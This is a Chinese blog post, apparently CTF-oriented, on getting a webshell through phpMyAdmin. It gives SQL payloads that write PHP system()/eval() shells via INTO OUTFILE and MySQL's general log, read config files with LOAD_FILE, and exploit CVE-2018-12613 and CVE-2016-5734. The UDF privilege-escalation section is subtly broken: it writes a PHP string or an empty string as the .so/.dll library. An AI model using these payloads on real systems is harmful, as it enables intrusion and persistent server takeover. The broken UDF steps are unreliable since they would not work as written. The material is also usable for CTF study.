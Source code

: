 ```yaml
---
layout: post
title: phpMyadmin getShell方法
subtitle: phpMyadmin getShell
date: 2025-08-15 18:47
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
number headings: first-level 2, max 4, 1.1., auto
published: true
---
```

## 1. phpMyAdmin getshell 常见套路

Windows 和 Linux 原理基本相同

### 1.1. `INTO OUTFILE` 写 PHP 马

**原理**：MySQL 可以把查询结果直接写到服务器文件系统，如果 Web 目录可写，就能写一段 PHP 代码变成 WebShell。

**条件检查：**

```sql
SHOW VARIABLES LIKE 'secure_file_priv'; 
SHOW GRANTS FOR CURRENT_USER();
```

- `secure_file_priv` 为空或是 Web 根目录。
- 当前用户有 `FILE` 权限。

**利用：**

```sql
select @@basedir;  -- 查找绝对路径
-- linux
SELECT '<?php system($_REQUEST["cmd"]);?>' INTO OUTFILE '/var/www/html/shell.php';
-- windows
SELECT '<?php eval($_REQUEST["cmd"]);?>' INTO OUTFILE 'c:\phpstudy\www\shell.php';
```

**CTF 变种：**

- 出题人可能会限制 `secure_file_priv`，这时需要找 **符号链接绕过** 或 **mysql 日志写马**

### 1.2. 利用 MySQL 日志写 WebShell

**原理**：MySQL 的 general log、slow log 可以记录 SQL 语句到文件。通过设置日志路径到 Web 目录，就能写 PHP 代码。

**操作：**

```sql
SET global general_log = 'ON'; 
SET global general_log_file = '/var/www/html/shell.php'; 
SELECT '<?php system($_GET["cmd"]); ?>'; 
SET global general_log = 'OFF';
```

访问 `shell.php` 即可。

### 1.3. `LOAD_FILE` 读取敏感文件

虽然不是直接 getshell，但可以辅助：

```sql
SELECT LOAD_FILE('/var/www/html/config.php');
```

可能拿到数据库连接密码，从而用其他方式 getshell。

### 1.4. 导入功能绕过上传限制

在 phpMyAdmin 的 “导入” 页面上传 `.php` 文件，出题人可能没有过滤，或者导入路径就是 Web 可访问路径。

- 常见的 CTF trick：导入 `.txt` 文件，但内容是 PHP 代码，然后用双扩展名 `shell.php.txt`，再通过 `.htaccess` 把 `.txt` 解析成 PHP。

### 1.5. 创建数据库和表写入 WebShell

```sql
CREATE TABLE test( id text(500) not null);
INSERT INTO test (id) VALUES('<?php @eval($_POST[cmd]);?>');
SELECT id FROM test INTO OUTFILE 'C:/phpstudy/WWW/1.php';
DROP TABLE IF EXISTS test;
```

### 1.6. phpMyAdmin 历史漏洞 getshell

在 CTF 中常用老版本 phpMyAdmin：

- **CVE-2018-12613**：文件包含漏洞，可以通过 `?target=db_sql.php%253f/../../../../.../shell` 来执行任意文件。
- **CVE-2016-5734**：SQL 执行漏洞，配合 OUTFILE 直接 getshell。

### 1.7. MySQL UDF 提权

#### 1.7.1. Linux

如果 MySQL 用户有 `FILE` 权限且是 root 运行，可以写入 `.so` 动态库到插件目录，创建自定义函数执行系统命令：

```sql
SELECT '<?php eval($_POST[a]);?>' INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so'; CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.so'; SELECT sys_eval('id');
```

但 CTF 中较少，因为需要 root 权限。

#### 1.7.2. Windows

如果 MySQL 服务在 Windows 上以 `SYSTEM` 运行，且有 `FILE` 权限，可以写 DLL 到 `plugin` 目录，注册自定义函数执行系统命令：

```sql
SELECT '' INTO DUMPFILE 'C:\\Program Files\\MySQL\\MySQL Server 5.7\\lib\\plugin\\udf.dll';
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll';
SELECT sys_eval('whoami');
```

CTF 偶尔会出，真实环境比较少见
